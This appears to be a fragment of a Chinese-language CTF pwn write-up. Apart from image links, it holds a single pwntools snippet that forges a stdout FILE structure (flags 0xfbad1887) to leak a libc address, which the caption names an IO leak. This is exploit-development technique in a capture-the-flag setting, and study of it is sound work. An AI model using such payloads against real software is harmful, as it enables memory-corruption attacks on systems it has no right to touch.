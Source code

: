 [![](assets/1700186924-dac56d90bc4c545145e80014a4032be4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162937-47364942-845a-1.png)

‍

[![](assets/1700186924-f0721482545021b8a6907b0e071edd20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162942-4a97e276-845a-1.png)

‍

```plain
payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak
```

io leak泄露libc地址

‍

[![](assets/1700186924-f018e9e4744dd172e23a579c088460d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162953-50d6d69c-845a-1.png)
